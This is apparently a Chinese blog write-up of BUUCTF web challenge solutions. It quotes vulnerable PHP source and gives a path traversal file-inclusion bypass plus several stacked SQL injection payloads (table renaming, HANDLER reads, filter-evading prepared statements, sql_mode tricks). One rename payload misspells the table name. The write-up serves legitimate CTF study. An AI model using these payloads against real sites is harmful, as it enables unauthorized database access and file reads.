 ## 2020-7-13-buu刷题记录1

(吐槽一波，由于这些题曾经做过这次是第二次做，浏览器智能得还留着我上一次操作的payload，导致我输入的时候payload直接就弹出来了/捂脸)

### 0x01 [HCTF 2018] Warm Up

这个题考察CVE-2018-12613。拿到题目，f12发现给了source.php。

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

审计代码发现有两个文件，其中hint.php提示了flag的位置，source.php就是源代码。其他文件的话都会返回```you can't see it```。但是仔细审计代码发现```$_page = mb_substr($page,0,mb_strpos($page . '?', '?'));```这段代码存在逻辑漏洞，只需要在这两个满足白名单的文件后面加个```?```后就可以绕过了。

故构造如下payload：

```
file=source.php?../../../../../../../ffffllllaaaagggg.php
```

成功获得flag。

### 0x02 [强网杯 2019] 随便注

这个题考察堆叠注入。先测试```1' or 1=1 #```发现可以正常返回，可以知道是单引号闭合，随后尝试union select注入发现被过滤且无法绕过。但是发现这里可以进行堆叠注入。

```sql
1';show databases; #   # 查看数据库
1';show tables; #      # 查看数据表
1';show columns from `words` #     # 查看words表中的所有列名
1';show columns from `1919810931114514` #    # 查看该表中的所有列名
```

随后发现在1919810931114514表中存在flag，但我们查询的是words表。故尝试修改表名来完成查询。修改words表为words1，1919810931114514表为words，然后修改列名，然后在输入万能密码查询就能得到flag了。

```sql
1';rename table `words` to `words1`;rename table `191910931114514` to `words`;alter table `words` change `flag` `id` varchar(100); #
```

不过这个题还有其他做法，可以通过mysql特有的handler语句完成查询。

```
1';handler `1919810931114514` open;handler `1919810931114514` read first; #    #如果没读出来就handler `1919810931114514 read next;一直往下读，读到flag为止。
```

或者通过预处理：

```sql
1';sEt a=CONCAT('se','lect * from `1919810931114514`;');prePare flag from a;execute flag; #    # set和prepare被过滤了，不过这个可以通过大小写绕过
```

### 0x03 [SUCTF 2019] EasySQL

这个题也是堆叠注入，但是handler被过滤，且被限制了40位。前面的方法无法再使用了。测试一下发现，输入1，2，3等数字返回1，输入0或者非数字什么都不返回。猜测使用了||。然后发现通过修改sql_mode系统变量可以改变||的功能，把||的功能从运算符变成字符串拼接符。

> sql_mode可以设置的值有：ONLY_FULL_GROUP_BY,STRICT_TRANS_TABLES,NO_ZERO_IN_DATE,NO_ZERO_DATE,ERROR_FOR_DIVISION_BY_ZERO,PIPES_AS_CONCAT,NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION

sql_mode主要关注两个值，PIPES_AS_CONCAT即将||当作字符串拼接符，STRICT_TRANS_TABLES即将||当作逻辑或运算符。

ok接下来就简单了。将sql_mode设置成PIPES_AS_CONCAT，然后查询就完事。

```sql
1';set sql_mode=PIPES_AS_CONCAT;select 1; #
```

>一个非预期。这个题没有过滤*，故可以直接\*,1，这样sql语句就变成了`select *,1||flag from Flag`，也就是`select *,1 from Flag`。直接查询flag表所有内容。

### 0x04 [极客大挑战 2019] EasySQL

万能密码登录即可。

### 0x05 [GYCTF 2020] Blacklist

这个题set alter被过滤了且无法绕过，于是就只剩下使用handler进行查询的方法了。payload和强网杯那个一样，不再赘述。
